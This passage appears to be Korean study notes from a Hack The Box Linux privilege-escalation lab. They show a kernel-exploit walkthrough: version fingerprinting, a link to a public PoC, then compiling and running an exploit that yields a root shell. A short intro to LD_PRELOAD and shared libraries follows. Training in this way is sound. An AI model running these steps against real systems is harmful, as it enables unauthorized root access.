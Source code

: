 # (★)Kernel Exploits

Kernel Exploit에는 대표적으로 Dirty COW (CVE-2016-5195)가 있다. 커널의 취약성을 이용하여 루트 권한으로 코드를 실행한다. 커널 익스플로잇에 취약한 시스템을 찾는 것은 매우 흔하다.

## Kernel Exploit Example

**Kernel level과 Linux OS 버전 확인**
```powershell
hunji@htb[/htb]$ uname -a

Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

```powershell
hunji@htb[/htb]$ cat /etc/lsb-release 

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
```
→ 구글에 linux 4.4.0-116-generic exploit 라고 검색하면 [https://vulners.com/zdt/1337DAY-ID-30003](https://vulners.com/zdt/1337DAY-ID-30003) PoC가 나온다.

`wget` 나 파일 전송 방법으로 다운받고, gcc 로 컴파일 후 `chmod +x` 를 해주자
```powershell
hunji@htb[/htb]$ gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
```

익스플로잇을 실행하면, root 쉘을 획득할 수 있다.
```powershell
hunji@htb[/htb]$ ./kernel_exploit 

task_struct = ffff8800b71d7000
uidptr = ffff8800b95ce544
spawning root shell
```

```powershell
root@htb[/htb]# whoami

root
```

# Shared Libraries

Linux에서는 **static library** (`.a`) 와 **dynamically linked shared object libraries**(`.so`) 가 있다.

`LD_PRELOAD` 환경 변수를 사용하면, 바이너리를 실행하기 전에 라이브러리를 로드할 수 있다. 이 라이브러리 함수는 기본 함수보다 우선적으로 사용된다. 바이너리에 필요한 공유 객체는 `ldd` 유틸리티를 사용하여 볼 수 있다.

```powershell
htb_student@NIX02:~$ ldd /bin/ls

	linux-vdso.so.1 =>  (0x00007fff03bc7000)
	libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f4186288000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4185ebe000)
	libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f4185c4e000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f4185a4a000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f41864aa000)
	libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f418582d000)
```
